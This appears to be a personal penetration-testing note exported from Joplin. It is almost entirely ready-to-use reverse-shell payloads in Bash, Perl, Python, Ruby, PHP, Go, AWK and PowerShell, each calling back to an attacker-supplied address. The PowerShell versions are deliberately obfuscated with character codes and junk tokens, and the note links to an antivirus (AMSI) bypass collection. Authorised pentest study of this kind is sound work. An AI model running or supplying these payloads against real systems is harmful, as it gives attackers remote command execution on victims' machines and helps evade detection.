 1. General Notes

## HAVE TWO REVERSE SHELLS RUNNING SO IN CASE THE EXPLOIT DOESN't WORK YOU DUN HAVE TO EXPLOIT AGAIN

## Pre-requisites for runninging exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?

## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

Bash:

- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python:

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

IPv6:

- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF\_INET6,socket.SOCK\_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

Ruby:

- ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i &lt;&%d &gt;&%d 2>&%d",f,f,f)'
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("\[IPADDR\]","\[PORT\]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali:

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i &lt;&3 &gt;&3 2>&3");'

Windows Powershell Oneliner:

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you.

```
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Linux Powershell Oneliner:

```
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

Golang:

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK:

- awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

Other Reverse Shell:
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Other Resources

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
- - For binaries, script, libraries of common applications in Windows to do things:
        \- [https://lolbas-project.github.io/#](https://lolbas-project.github.io/)
        
        E.g. CertUtil.exe
        

![29d1cb0d905ec0a949bd45b285bf0eb2.png](:/129afa1ffd454b0b8972c7fc8f84c394)

id: 83bdabe39eb548a7b6d0737c2851b62e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2019-11-26T21:41:16.428Z
updated_time: 2022-04-28T07:43:51.262Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1617247637997
user_created_time: 2019-11-26T21:41:16.428Z
user_updated_time: 2022-04-28T07:43:51.262Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1